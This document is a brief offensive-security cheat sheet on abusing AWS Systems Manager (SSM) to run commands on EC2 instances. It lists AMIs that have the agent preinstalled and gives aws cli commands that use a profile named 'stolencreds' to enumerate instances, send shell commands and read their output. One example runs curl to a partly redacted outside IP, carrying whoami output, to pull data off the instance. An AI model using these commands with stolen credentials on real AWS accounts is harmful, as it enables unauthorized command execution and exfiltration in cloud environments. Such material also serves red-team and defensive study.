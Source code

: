 # AWS - SSM

## Command execution

:warning: The ssm-user account is not removed from the system when SSM Agent is uninstalled.

SSM Agent is preinstalled, by default, on the following Amazon Machine Images (AMIs):

* Windows Server 2008-2012 R2 AMIs published in November 2016 or later
* Windows Server 2016 and 2019
* Amazon Linux
* Amazon Linux 2
* Ubuntu Server 16.04
* Ubuntu Server 18.04
* Amazon ECS-Optimized

```powershell
$ aws ssm describe-instance-information --profile stolencreds --region eu-west-1  
$ aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile stolencreds
$ aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}" --profile stolencreds

e.g:
$ aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl 162.243.███.███:8080/`whoami`' --output text --region=us-east-1
```


## References

* []()